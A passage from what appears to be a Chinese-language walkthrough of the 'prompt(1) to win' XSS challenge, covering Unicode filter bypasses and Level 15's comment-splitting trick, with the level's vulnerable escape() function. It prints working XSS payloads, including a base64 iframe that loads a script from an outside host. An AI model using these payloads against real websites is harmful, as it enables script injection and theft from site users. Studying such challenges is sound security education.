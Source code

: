 ```
"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=

```

IE下

```
"><script/async/src="/〳⒛₨


<img src=""><SCRIPT/ASYNC/SRC="/〳⒛₨">

```

### 背景知识

这里再次使用了Unicode字符绕过。

Level 15
--------

* * *

过滤了_,所以不能使用js注释/_，但是前面也提到了，html里面的`<!--`,`-->`同样可以在js中使用，如下

```
<p class="comment" title=""><svg><!--" data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt(1<!--" data-comment='{"id":2}'></p>
<p class="comment" title="-->)</script>" data-comment='{"id":3}'></p>

```

### 代码

```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}

```

### 答案

57个字符
